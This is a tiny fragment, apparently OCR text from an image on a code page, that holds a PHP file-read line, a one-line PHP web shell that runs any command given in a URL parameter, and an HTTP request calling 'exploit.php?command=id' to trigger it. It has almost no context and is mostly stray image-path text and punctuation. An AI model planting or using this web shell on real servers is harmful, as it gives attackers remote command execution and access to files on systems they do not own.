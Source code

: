 `<?php echo file_get_contents('/path/to/target/file'); ?>`

`<?php echo system($_GET['command']); ?>` :

`GET /example/exploit.php?command=id HTTP/1.1`